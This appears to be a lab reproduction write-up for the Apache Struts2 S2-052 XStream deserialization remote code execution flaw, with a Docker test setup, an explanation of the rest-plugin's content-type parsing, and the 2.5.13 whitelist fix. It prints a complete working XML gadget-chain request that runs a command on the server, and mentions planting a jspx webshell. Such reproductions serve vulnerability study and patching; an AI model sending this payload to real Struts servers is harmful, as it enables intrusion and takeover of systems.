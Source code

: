 # S2-052 Remote Code Execution Vulnerability

Impact version: Struts 2.1.2 - Struts 2.3.33, Struts 2.5 - Struts 2.5.12

Vulnerability details:

 - http://struts.apache.org/docs/s2-052.html
 - https://yq.aliyun.com/articles/197926

## Test environment construction

```
Docker-compose up -d
```

## Vulnerability Description

Struts2-Rest-Plugin is a plugin that enables Struts2 to implement the Restful API. It determines the type of packet passed by the user based on the Content-Type or URI extension. It has the following mapping table:

Extension | Content-Type | Resolution Method
---- | ---- | ----
Xml | application/xml | xstream
Json | application/json | jsonlib or jackson (optional)
Xhtml | application/xhtml+xml | None
None | application/x-www-form-urlencoded | None
None | multipart/form-data | None

Jsonlib can't introduce arbitrary objects, and xstream can introduce any object by default (for versions prior to 1.5.x). The method is to specify the class name to be instantiated directly through the tag name of xml:

```
<classname></classname>
//or
<paramname class="classname"></paramname>
```

Therefore, we can introduce any class to cause remote command execution vulnerabilities by deserialization. We only need to find a geget that is applicable in the Struts2 library.

## Vulnerability recurrence

After launching the environment, visit `http://your-ip:8080/orders.xhtml` to see the showcase page. Since the rest-plugin will determine the parsing method based on the URI extension or Content-Type, we only need to modify the orders.xhtml to order.xml or modify the Content-Type header to application/xml to pass the XML data in the Body.

So, the last packet sent is:

```
POST /orders/3/edit HTTP/1.1
Host: your-ip:8080
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Content-Type: application/xml
Content-Length: 2415

<map>
  <entry>
    <jdk.nashorn.internal.objects.NativeString>
      <flags>0</flags>
      <value class="com.sun.xml.internal.bind.v2.runtime.unmarshaller.Base64Data">
        <dataHandler>
          <dataSource class="com.sun.xml.internal.ws.encoding.xml.XMLMessage$XmlDataSource">
            <is class="javax.crypto.CipherInputStream">
              <cipher class="javax.crypto.NullCipher">
                <initialized>false</initialized>
                <opmode>0</opmode>
                <serviceIterator class="javax.imageio.spi.FilterIterator">
                  <iter class="javax.imageio.spi.FilterIterator">
                    <iter class="java.util.Collections$EmptyIterator"/>
                    <next class="java.lang.ProcessBuilder">
                      <command>
                        <string>touch</string>
                        <string>/tmp/success</string>
                      </command>
                      <redirectErrorStream>false</redirectErrorStream>
                    </next>
                  </iter>
                  <filter class="javax.imageio.ImageIO$ContainsFilter">
                    <method>
                      <class>java.lang.ProcessBuilder</class>
                      <name>start</name>
                      <parameter-types/>
                    </method>
                    <name>foo</name>
                  </filter>
                  <next class="string">foo</next>
                </serviceIterator>
                <lock/>
              </cipher>
              <input class="java.lang.ProcessBuilder$NullInputStream"/>
              <ibuffer></ibuffer>
              <done>false</done>
              <ostart>0</ostart>
              <ofinish>0</ofinish>
              <closed>false</closed>
            </is>
            <consumed>false</consumed>
          </dataSource>
          <transferFlavors/>
        </dataHandler>
        <dataLen>0</dataLen>
      </value>
    </jdk.nashorn.internal.objects.NativeString>
    <jdk.nashorn.internal.objects.NativeString reference="../jdk.nashorn.internal.objects.NativeString"/>
  </entry>
  <entry>
    <jdk.nashorn.internal.objects.NativeString reference="../../entry/jdk.nashorn.internal.objects.NativeString"/>
    <jdk.nashorn.internal.objects.NativeString reference="../../entry/jdk.nashorn.internal.objects.NativeString"/>
  </entry>
</map>
```

If the above packet is successfully executed, the file `/tmp/success` will be created in the docker container, and `docker-compose exec struts2 ls /tmp/` can be executed.

In addition, we can also download a jspx webshell:

![](01.png)

There are some simpler ways to use them, so I won't go into details here.

## Vulnerability Fix

In struts2.5.13, according to the mitigation measures (http://x-stream.github.io/security.html) given by xstream, the whitelist for deserialization is added:

```java
Protected void addDefaultPermissions(ActionInvocation invocation, XStream stream) {
    stream.addPermission(new ExplicitTypePermission(new Class[]{invocation.getAction().getClass()}));
    If (invocation.getAction() instanceof ModelDriven) {
        stream.addPermission(new ExplicitTypePermission(new Class[]{((ModelDriven) invocation.getAction()).getModel().getClass()}));
    }
    stream.addPermission(NullPermission.NULL);
    stream.addPermission(PrimitiveTypePermission.PRIMITIVES);
    stream.addPermission(ArrayTypePermission.ARRAYS);
    stream.addPermission(CollectionTypePermission.COLLECTIONS);
    stream.addPermission(new ExplicitTypePermission(new Class[]{Date.class}));
}
```

However, at this time, the business logic of the previous code may be affected. Therefore, there is no particularly good way to carefully upgrade, that is, to exclude the old code one by one and remove the classes that are not in the whitelist.